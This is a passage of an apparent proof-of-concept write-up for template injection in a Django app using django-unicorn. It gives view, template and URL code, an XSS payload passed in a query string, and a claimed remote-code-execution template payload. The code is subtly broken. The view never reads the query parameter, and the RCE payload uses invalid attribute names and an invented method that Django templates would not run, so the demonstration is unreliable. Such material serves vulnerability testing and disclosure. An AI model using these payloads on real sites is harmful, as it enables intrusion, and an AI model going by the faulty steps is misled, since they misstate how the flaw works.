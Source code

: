     def ssti_test_view(request):
        return render(request, 'webapp/ssti_template.html', {'unsafe_input': '<b>Initial Value</b>'})
    ```
    5. Create a Django template `webapp/templates/webapp/ssti_template.html`:
    ```html
    {% load unicorn %}
    <html>
    <head>
        {% unicorn_scripts %}
    </head>
    <body>
        {% csrf_token %}
        {% unicorn 'ssti-component' unsafe_input=unsafe_input %}
    </body>
    </html>
    ```
    6. Add URL patterns in `webapp/urls.py`:
    ```python
    from django.urls import path
    from .views import ssti_test_view

    urlpatterns = [
        path('ssti/', ssti_test_view, name='ssti_test_view'),
    ]
    ```
    7. Include `webapp.urls` in project's `urls.py`.
    8. Run the Django development server.
    9. Access the URL `/ssti/?unsafe_input=<img src=x onerror=alert(document.domain)>`.
    10. **Expected Result:** An alert box with the document domain should appear in the browser, demonstrating XSS due to SSTI. To verify RCE, try injecting template code to execute Python code. For example, try to inject `{{ ''.class.mro()[1].subclasses()[408]('__init__').get_specialization()[1](request.environ['PATH_INFO']) }}` (This is a simplified example, real RCE payloads can be more complex and depend on the Django version and environment). Viewing the page source should reveal the rendered output of the injected template code, confirming SSTI.
